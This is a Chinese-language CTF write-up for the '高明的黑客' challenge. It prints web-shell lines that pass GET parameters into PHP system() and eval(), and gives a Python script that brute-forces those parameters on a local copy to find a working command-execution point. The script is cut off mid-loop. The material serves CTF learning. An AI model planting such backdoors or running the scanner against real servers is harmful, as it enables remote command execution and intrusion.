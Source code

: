 ![](/assets/images/move/2019-08-13-22-58-47.png)



### 高明的黑客

> 雁过留声，人过留名，此网站已被黑
>
> 我也是很佩服你们公司的开发，特地备份了网站源码到www\.tar.gz以供大家观赏

下载源代码解压得到3002个混淆后的php文件，每个文件中包含多个参数和system()/eval()函数。

```php
system($_GET['cg6BNgitU'] ?? ' ');
eval($_GET['ganVMUq3d'] ?? ' ');
```

猜测某个文件中可能存在命令执行的利用点，本地进行爆破尝试。

```python
import re
import os
import requests

main_url = "http://127.0.0.1/hack/"
rg = re.compile(r'\$_GET\[\'(.*?)\'\]')
rp = re.compile(r'\$_POST\[\'(.*?)\'\]')
files = os.listdir("./hack/") #xk0SzyKwfzw.php

for file in files:
    print("[*]Detecting: " + file)
    url = main_url + file
    fn = "./hack/" + file
    with open(fn) as f:
        data = f.read()
        params_get = rg.findall(data)
        params_post = rp.findall(data)
    # $_GET
    query = "=echo success;&".join(params_get)
    r = requests.get(url + '?' + query)
    if "success" in r.text:
        print("[+]Found: " + file)
        print("[*]Detecting the Parameter...")
        for param in params_get:
            r = requests.get(url + '?' + param + '=echo success;')
```